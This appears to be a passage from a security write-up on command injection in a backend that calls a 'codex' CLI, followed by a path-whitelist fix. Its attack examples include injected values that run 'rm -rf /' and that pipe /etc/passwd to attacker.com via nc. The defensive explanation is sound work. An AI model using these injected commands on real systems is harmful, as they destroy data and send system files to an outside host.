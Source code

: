#### 1. Prompt-Based Injection
```python
# Attacker uploads PDF with embedded text:
malicious_prompt = "Normal question; rm -rf / #"

# Gets executed as:
/opt/homebrew/bin/codex exec "Normal question; rm -rf / #"
```

#### 2. Model Name Injection
```python
# Attacker manipulates model parameter:
malicious_model = "gpt-5; cat /etc/passwd | nc attacker.com 1337"

# Gets executed as:
/opt/homebrew/bin/codex exec "prompt" --model "gpt-5; cat /etc/passwd | nc attacker.com 1337"
```

#### 3. CLI Path Manipulation
```python
# Attacker modifies .env file or config:
CODEX_CLI_PATH=/tmp/malicious_script

# Service executes attacker's script instead of Codex CLI
```

---

## Security Fix Implementation

### 1. CLI Path Whitelist Validation

**File**: `/Users/kyin/Projects/Studyin/backend/app/services/codex_llm.py`

```python
# Whitelist of allowed CLI paths
ALLOWED_CLI_PATHS = frozenset({
    "/opt/homebrew/bin/codex",
    "/usr/local/bin/codex",
    "/usr/bin/codex",
    str(Path.home() / ".local" / "bin" / "codex"),
})

def _validate_cli_path(cli_path: str) -> str:
    """
    Validate CLI path against whitelist.

    Security: Only allow specific, trusted CLI paths.
    """
    resolved_path = str(Path(cli_path).resolve())

    if resolved_path not in ALLOWED_CLI_PATHS:
        logger.error("security_cli_path_blocked", ...)
        raise ValueError(f"CLI path not in whitelist: {cli_path}")

    # Verify file exists and is executable
    if not os.path.exists(resolved_path):
        raise ValueError(f"CLI path does not exist: {resolved_path}")

    if not os.access(resolved_path, os.X_OK):
        raise ValueError(f"CLI path is not executable: {resolved_path}")

    return resolved_path
```
